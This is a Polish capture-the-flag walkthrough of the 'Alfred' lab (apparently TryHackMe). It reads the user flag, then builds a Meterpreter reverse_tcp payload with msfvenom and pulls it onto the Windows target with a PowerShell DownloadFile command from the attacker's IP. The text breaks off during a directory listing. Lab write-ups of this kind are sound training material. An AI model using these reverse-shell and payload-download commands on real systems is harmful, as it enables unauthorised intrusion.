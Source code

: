 ![](/alfred_projekt_uruchomienie.bmp)

Po uruchomieniu odwrotnej powłoki poleceniem `whoami` sprawdzam na jakim użytkowniku jestem zalogowany. Następnie szukam flagi. Przechodzę na pulpit użytkownika poleceniem `cd C:\Users\bruce\Desktop` , następnie poleceniem `dir` sprawdzam czy flaga znajduje się w danym katalogu. Otwieram flage user.txt poleceniem `type user.txt`.

![](/alfred_powloka.bmp)
![](/alfred_powloka_flaga.bmp)

## Task 2  Switching Shells

Zgodnie z opisem zadania poleceniem `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.78.81 LPORT=1234 -f exe -o shell-name.exe` tworzę ładunek.

![](/alfred_odp_task_2.bmp)

 Następnie w uzyskanej poprzednio powłoce wpisuję polecenia:
 
 ```
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.78.81:9000/shell1.exe','shell.exe')"
PS C:\Users\bruce\Desktop> dir


    Directory: C:\Users\bruce\Desktop
                                                                                                                    
                                                                                                                    
Mode                LastWriteTime     Length Name                                                                   
----                -------------     ------ ----                                                                   
 ```